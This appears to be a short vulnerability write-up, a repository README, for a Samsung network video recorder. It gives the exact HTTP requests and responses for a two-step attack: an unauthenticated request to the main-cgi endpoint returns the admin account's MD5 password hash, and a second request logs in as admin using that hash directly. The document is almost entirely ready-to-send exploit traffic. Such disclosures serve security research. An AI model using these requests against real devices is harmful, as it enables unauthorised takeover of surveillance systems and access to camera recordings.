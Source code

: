 # Samsung_NVR_vul

### First, get the MD5 hash password of the 'admin' account.

Send:  
GET http://192.168.1.14/cgi-bin/main-cgi?json={"cmd":201,"szUserName_Qry":"admin","szUserName":"","u32UserLoginHandle":0} HTTP/1.1  
Host: 192.168.1.14  
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3  
Accept-Encoding: gzip, deflate  
X-Requested-With: XMLHttpRequest  
Connection: keep-alive  

Recv:  
HTTP/1.1 200 OK  
Content-Type: text/html;CHARset=utf-8  

{  
	"szUserName":	"",  
	"szLoginPasswd":	"e10adc3949ba59abbe56e057f20f883e",  
	"au32LoginPasswd":	[13423221, 5515125, 6390751, 4733341, 12838108, 13423221, 5515125, 6390751, 10132668, 371291, 12838108, 13423221, 5515125, 10132668, 371291, 13423221, 10132668, 371291, 0, 0],  
	"u16UserPermissionCnt":	1,  
	"u8UserRole":	0,  
	"u8UserBasePermission":	255,  
	"u16UserExtralPermissionCnt":	1,  
	"u32UserLivePermission":	[4294967295],  
	"u32UserPTZPermission":	[4294967295],  
	"u32UserVODPermission":	[4294967295],  
	"u32UserRecordPermission":	[4294967295],  
	"u32UserLocalBackup":	[4294967295], 
	"code":	0,  
	"success":	true  
}  

"szLoginPasswd":	"e10adc3949ba59abbe56e057f20f883e" is the MD5 hash password of 'admin' account.  

Now, we have the MD5 hash password.


### Second, log in to the device with that MD5 hash.

Send:  

POST http://192.168.1.100/cgi-bin/main-cgi HTTP/1.1  
Accept: text/html, application/xhtml+xml, */*  
Referer: http://192.168.1.100/  
Accept-Language: zh-CN  
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko  
Content-Type: application/x-www-form-urlencoded  
Accept-Encoding: gzip, deflate  
Connection: Keep-Alive  
Content-Length: 246  
DNT: 1  
Host: 192.168.1.100  
Pragma: no-cache  

lLan=0&szUserName=admin&szUserPasswd=e10adc3949ba59abbe56e057f20f883e&szUserPasswdEx=%5B6477625%2C24215867%2C12838108%2C11382568%2C7503741%2C7198498%2C24215867%2C7503741%2C7198498%2C23345327%2C7198498%2C10192199%2C23345327%2C7198498%2C10192199%5D

szUserPasswd=e10adc3949ba59abbe56e057f20f883e is the MD5 hash password we read from the first step.

Now, we log in to the device with 'admin' account.
